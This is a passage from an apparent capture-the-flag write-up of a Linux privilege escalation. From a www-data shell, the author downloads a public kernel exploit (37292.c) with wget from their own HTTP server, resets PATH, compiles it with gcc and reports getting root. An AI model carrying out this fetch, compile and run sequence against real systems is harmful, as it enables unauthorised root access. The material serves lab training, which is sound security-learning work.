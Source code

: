 ```terminal
Ubuntu 19.10 - ubuntu-aufs-modified mmap_region() Breaks Refcounting in overlayfs/shiftfs Error Path                                                                       | linux/dos/47692.txt
--------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```

Send the exploit file to the machine and compile with `gcc`

```terminal
➜  0day python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.241.3 - - [28/Sep/2022 03:55:34] "GET /37292.c HTTP/1.1" 200 -
10.10.241.3 - - [28/Sep/2022 03:55:53] "GET /37292.c HTTP/1.1" 200 -
```

```terminal
www-data@ubuntu:/usr/lib/cgi-bin$ cd /tmp
cd /tmp
www-data@ubuntu:/tmp$ wget http://10.17.62.230:8000/37292.c
wget http://10.17.62.230:8000/37292.c
--2022-09-27 20:55:53--  http://10.17.62.230:8000/37292.c
Connecting to 10.17.62.230:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 4968 (4.9K) [text/plain]
Saving to: '37292.c'

100%[======================================>] 4,968       --.-K/s   in 0.001s

2022-09-27 20:55:54 (6.70 MB/s) - '37292.c' saved [4968/4968]

www-data@ubuntu:/tmp$
```

The file can't be compiled because of the PATH that being used in this version of Ubuntu is incorrect, so we need to fix the PATH to the default.

```terminal
www-data@ubuntu:/tmp$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin/:/sbin:/bin 
```
Compile the file with gcc and we can execute the file

```terminal
www-data@ubuntu:/tmp$ gcc 37292.c -o myexploit
gcc 37292.c -o myexploit
www-data@ubuntu:/tmp$ ls -la
ls -la
total 40
drwxrwxrwt  4 root     root      4096 Sep 27 21:03 .
drwxr-xr-x 22 root     root      4096 Sep  2  2020 ..
drwxrwxrwt  2 root     root      4096 Sep 27 20:12 .ICE-unix
drwxrwxrwt  2 root     root      4096 Sep 27 20:12 .X11-unix
-rw-r--r--  1 www-data www-data  4968 Sep 27 20:54 37292.c
-rwxr-xr-x  1 www-data www-data 13652 Sep 27 21:03 myexploit
www-data@ubuntu:/tmp$
```
Run the exploit and we get root directly
